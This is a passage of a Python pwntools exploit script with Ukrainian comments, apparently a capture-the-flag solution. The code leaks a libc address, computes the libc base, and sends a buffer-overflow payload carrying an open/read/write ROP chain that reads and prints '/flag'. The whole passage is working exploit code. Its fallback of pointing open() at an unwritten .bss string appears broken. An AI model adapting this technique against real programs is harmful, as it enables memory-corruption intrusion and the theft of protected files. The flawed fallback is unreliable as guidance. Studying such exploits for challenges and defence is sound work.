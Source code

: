 ```python
    io.recvline()
    leaked_puts = int(io.recvline().split(b'=')[1], 16)
    libc.address = leaked_puts - libc.symbols['puts']
    log.success(f"Libc base: {hex(libc.address)}")

    # === ПІДГОТОВКА ===
    io.recvuntil(b'payload:')

    # Адреси функцій
    open_addr = libc.symbols['open']
    read_addr = libc.symbols['read']
    write_addr = libc.symbols['write']

    # Місце для даних (використаємо .bss)
    bss_addr = elf.bss(0x200)  # .bss + offset

    log.info(f"open:  {hex(open_addr)}")
    log.info(f"read:  {hex(read_addr)}")
    log.info(f"write: {hex(write_addr)}")
    log.info(f"bss:   {hex(bss_addr)}")

    # === ROP CHAIN ===
    rop = ROP(libc)

    # 1. open("/flag", O_RDONLY) → повертає fd в rax
    flag_str = b'/flag\x00'
    flag_addr = bss_addr
    # Спочатку запишемо "/flag" в .bss (через read або інший спосіб)
    # Для простоти покладемо в payload і скопіюємо

    # Альтернатива: якщо "/flag" є в libc
    try:
        flag_addr = next(libc.search(b'/flag\x00'))
    except:
        # Якщо немає, треба записати самим
        log.warning("'/flag' not in libc, using .bss")
        flag_addr = bss_addr

    rop.open(flag_addr, 0)  # open(path, O_RDONLY)

    # 2. read(3, bss+0x100, 0x100) → читаємо файл
    # fd буде 3 (стандартно: 0=stdin, 1=stdout, 2=stderr, 3=перший файл)
    rop.read(3, bss_addr + 0x100, 0x100)

    # 3. write(1, bss+0x100, 0x100) → виводимо на екран
    rop.write(1, bss_addr + 0x100, 0x100)

    # Payload
    payload = b'A' * OFFSET + rop.chain()

    # Якщо "/flag" треба додати
    if flag_addr == bss_addr:
        payload += flag_str

    log.info(f"ROP chain length: {len(rop.chain())}")
    io.sendline(payload)

    # Отримуємо вміст /flag
    io.recvline()  # "got N bytes"
    result = io.recvall(timeout=2)
    log.success(f"Result:\n{result.decode(errors='ignore')}")

    io.close()
```